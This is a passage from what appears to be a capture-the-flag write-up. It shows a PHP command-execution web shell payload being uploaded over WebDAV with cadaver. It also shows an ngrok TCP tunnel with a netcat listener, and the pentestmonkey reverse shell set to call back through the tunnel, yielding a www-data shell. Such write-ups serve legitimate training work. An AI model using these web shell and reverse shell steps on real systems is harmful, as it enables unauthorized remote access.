 ```payload:AAAA<?php system($_GET[‘cmd’]); ?>```
>visit: https://ngrok.com/

>command:./ngrok tcp 1337

1337 is the port we are actually going to listen on. This means we will set up our netcat listener in another terminal

>command:rlwrap nc -lvnp 1337

![image](https://user-images.githubusercontent.com/67879936/222449253-80abc34d-3558-49cb-bc31-a17ac9427a4c.png)

From the above screenshot, we can say

```IP:4.tcp.eu.ngrok.io```      ```Port:18124```

Note: The ip and port I have above will be different from yours, so you are going to get it when you run the ngrok command

Now, this will be the IP and PORT we will use when cooking our reverse shell. For this machine we are going to be using the php-pentestmonkey shell.

You can get the shell here: https://github.com/pentestmonkey/php-reverse-shell.git

Open the .php file in any editor of your choice and change the $ip and $port

![image](https://user-images.githubusercontent.com/67879936/222449644-d9f84488-090f-447e-9b6f-daac49a04a1b.png)

Take a close look at the $ip and $port from the above screenshot. After doing this lets go ahead and upload the file using the “_put_” command on cadaver

>Note:Ensure you run cadaver in the directory where your .php shell is located

![image](https://user-images.githubusercontent.com/67879936/222449774-7a467f78-db00-4dd0-87a8-ae620fe6e6ac.png)

Now that we have successfully uploaded our shell, lets go ahead and execute the shell since we have our netcat listener running already

>link:http://185.203.119.220:8003/webdav/hehehe.php

![image](https://user-images.githubusercontent.com/67879936/222449935-c434f07c-94e8-4718-9b3e-449a1dec7790.png)

![image](https://user-images.githubusercontent.com/67879936/222449976-06b6ebfa-e29a-4ef4-a487-7fdbc7349eed.png)

cool, we got ourselves a shell as user “www-data”

We can stabilize this shell using the following command

```
python3 -c “import pty;pty.spawn(‘/bin/bash’)”
ctrl + z (to background)
stty raw -echo && fg
export TERM=xterm
```

![image](https://user-images.githubusercontent.com/67879936/222450133-b563686d-b077-4ccf-b7d5-839b0d71e157.png)

```